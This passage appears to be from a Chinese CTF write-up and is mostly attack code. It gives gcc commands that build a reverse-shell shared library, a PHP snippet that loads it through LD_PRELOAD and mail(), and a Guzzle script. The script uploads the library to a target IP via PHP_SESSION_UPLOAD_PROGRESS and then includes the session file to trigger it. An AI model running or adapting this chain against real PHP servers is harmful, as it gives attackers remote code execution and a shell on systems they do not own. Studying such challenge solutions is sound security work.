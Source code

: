 使用如下指令进行编译。

```bash
$ gcc -c -fPIC shell.c -o shell
$ gcc -shared shell -o shell.so
```

编译完成的二进制文件即可用于反弹 shell。再构造出如下 PHP 文件用于进行 LD_PRELOAD 进而触发反弹 shell。

```php
<?php
    putenv("LD_PRELOAD=./shell.so"); //此处的文件名还需要更改
    mail('','','','');
?>
```

写出如下脚本来一把梭触发反弹 shell。

```php
<?php

use GuzzleHttp\Client;
use GuzzleHttp\Psr7;

ini_set('session.serialize_handler', 'php_serialize');

require '../vendor/autoload.php';


// Exploit
$URL = "http://8.136.8.210:10030";
$client = new Client(array(
    "base_uri" => $URL,
    "allow_redirects" => false,
    "timeout" => 3.0
));
try{
    $client->post("/", array(
        "query" => array(
            "chance" => "for(;;){}",
            "mode" => "chance"
        ),
        "multipart" => array(
            array(
                "name" => "PHP_SESSION_UPLOAD_PROGRESS",
                "contents" => "N"
            ),
            array(
                "name" => "file",
                "contents" => Psr7\Utils::tryFopen("./shell.so", "rb"),
                "filename" => "shell.so"
            )
        ),
        "headers" => array(
            "Cookie" => "PHPSESSID=exp1;"
        )
    ));
}catch(Exception $e){
}

$response = $client->get("/", array(
    "query" => array(
        "bonus" => "/var/lib/php/sessions/sess_exp1"
    )
));
$content = $response->getBody()->getContents();
$content = str_replace("Welcome!!upload_progress_N|", "", $content);
```